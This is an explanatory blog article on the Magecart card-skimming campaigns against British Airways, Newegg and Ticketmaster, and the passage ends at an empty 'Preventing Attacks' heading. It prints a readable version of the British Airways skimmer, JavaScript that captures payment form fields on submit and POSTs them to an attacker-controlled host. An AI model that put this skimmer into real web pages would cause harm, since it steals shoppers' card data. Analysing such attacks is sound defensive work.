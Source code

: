 ```yaml
---
title: Everything you need to know on Magecart Attacks
date: "2018-10-19T19:12:03.284Z"
---
```


In the last month a group of hackers called Magecart came back striking in full force.

They first came in the news back in 2015 when [RiskIQ](https://riskiq.com) found out they injected code in Magento's "Magecart" shopping software.

The attacks they architected have caused massive damages to companies like British Airways, Ticketmaster and even Newegg.

This group is specialised in card skimming payment forms on the internet.

## How?

![](./threat.png)

Their attacks are all based on injecting malicious javascript into websites.

The main attack vector are hacked CDNs and third party plugins on websites.

The js inserted in websites usually is pretty straightforward: on form submission, a POST request with all the sensitive information is sent to an external server that is set up to receive it.

![](./on-payment.png)

The code in the British Airways attack was the following:

![](./british-airways.png)

Here's a more readable version of it:
```javascript
    window.onload = function() {
        // Triggering the function when users submit payment details
        jQuery(".btn-success").bind ("mouseup touchend", function(t) {
            var e={};
            // Copying the data inside of the payment form
            jQuery("#payment-form").serializeArray().map(function(t){
                e[t.name] = t.value});
            // Creating a JSON with the credit card data    
            var n=JSON.stringify(e);
            setTimeout(function() {
                    jQuery.ajax({
                        // POST request to Magecart controlled server
                        type:"POST",
                        async:!0,
                        // Malicious Server controlled by Magecart
                        url:"https://malicious-service.com/carding-api/",
                        data:n,
                        dataType:"application/json"})},
                500)})};

```



## CDN Security

These attacks usually are aimed towards large corporations that are attacked, either **directly**, or in **indirect ways**.

An example of indirect attack that happened this September, when the group targeted [Shopper Approved](https://www.shopperapproved.com), an ecommerce plugin for customer rating.

In this case the attack targeted a static resource that was used by multiple websites.

Researchers at [RiskIQ](https://www.riskiq.com) found obfuscated javascript code included in the `certificate.js` file.

Original file 👇

![](sa-clean.png)

Malicious file 👇

![](sa-obfuscated.png)

In the Newegg attack, the criminals registered a domain called **neweggstats.com** and used it paired with a paid Comodo TLS certificate to give legitimacy to their page.

> I'm not sure why they would need to pay for a TLS certificate (and not use something like Let's Encrypt) as their website only appears on client side code and the data goes directly to them. So it shouldn't appear on any logs on the victims servers. 
*Contact me if you know!*

The card skimmer in this attack was placed directly inside the payment processing page.

The code used in this attack was the same as the one used in the British Airways attack adapted for the new victim's website.

A fourth attack targeted Ticketmaster through Inbenta, a third party tool that "Uses Artificial Intelligence and NLP to increase customer happiness and your company's bottomline".

This service is integrated through custom subdomains for every client they have.

These were the Ticketmaster subdomains:
```markdown
ticketmasterat.inbenta.com
ticketmasterau.inbenta.com
ticketmasterbe.inbenta.com
ticketmasterde.inbenta.com
ticketmasterdk.inbenta.com
ticketmasterfi.inbenta.com
ticketmasterfr.inbenta.com
ticketmasterie.inbenta.com
ticketmasternl.inbenta.com
ticketmasterno.inbenta.com
ticketmasternz.inbenta.com
ticketmasterpl.inbenta.com
ticketmasterse-avatar.inbenta.com
ticketmasterse.inbenta.com
ticketmastertr.inbenta.com
ticketmasteruk.inbenta.com
ticketmasterus.inbenta.com
```

Inside the Ticketmaster js resources there's a function that inserts an external script from Inbenta.

![](inbenta.png)

And right there you could find the malicious code by Magecart above the original script:

![](malicious-inbenta.png)

The attackers initially (on June 12th) even deleted the original code by Inbenta and only included their code.

![](inbenta-deleted.png)

The Ticketmaster websites around the world were also breached via another third party plugin called SOCIAPlus an "E-commerce Big & Social analysis service".

These breaches are only the tip of the Iceberg.

Magecart is now targeting the backbones of the internet.

Sometimes they even have the audacity of blackmailing website admins, like in this case:

![](magecart-blackmail.png)

## Preventing Attacks